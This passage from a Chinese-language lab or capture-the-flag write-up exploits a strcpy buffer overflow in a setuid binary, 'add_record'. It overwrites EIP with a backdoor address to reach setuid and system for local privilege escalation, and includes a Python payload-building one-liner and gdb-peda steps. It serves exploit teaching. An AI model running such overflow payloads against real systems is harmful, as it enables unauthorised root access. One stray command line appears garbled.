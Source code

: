 ![image-20211124171814589](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211124171814589.png)

调用了setuid函数提权，调用了system函数执行指令，

思考：我们需要对system函数进行跟踪，则需要记录下起始的内存地址（0x08048676），通过程序的正常执行，通过explain变量注入的数据，在62个字节之后，如果能把该地址写入EIP寄存器中，EIP寄存器就会读取该地址下的所有指令，并分别执行setuid、system指令，紧接着可以通过设置断点，单步跟进到system指令，查看其执行了什么命令，是否有可利用的点？来实现提权的目标。

思路：

主程序会调用执行vuln函数-->vuln函数又调用了存在缓冲区溢出漏洞的内嵌函数strcpy-->但主程序内并未调用backdoor函数-->所以利用主程序内加载的vuln函数中的strcpy函数的缓冲区溢出漏洞-->向EIP寄存器内写入backdoor的起始内存加载地址-->以执行backdoor函数-->执行setuid函数、执行system函数-->执行system函数中的操作系统指令-->有没有可能注入payload-->完成本地提权？



向EIP寄存器内写入backdoor的起始内存加载地址（定向到payload内）：

```
python -c "import struct; print('zz\n1\n1\n1\n' + 'A'*62 + struct.pack('I', 0x08048676))" > payload
```

```
cat payload
```

![image-20211124174848606](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211124174848606.png)

```
gdb-peda$ q     #退出调试器
```

回到目标靶机

```
。r b r
```

![image-20211124175728595](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211124175728595.png)

```
gdb -q ./add_record    #重新打开gdb调试
```

```
gdb-peda$ r < payload
```

![image-20211124175923850](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211124175923850.png)

结果耐人寻味：产生了两个新的进程，4312执行了程序/bin/dash ，4313执行了程序/bin/bash

为什么产生这样的结果?去分析一下

```
gdb-peda$ q     #退出调试器
```

```
gdb -q ./add_record    #重新打开gdb调试
```

```
gdb-peda$ disas main
```
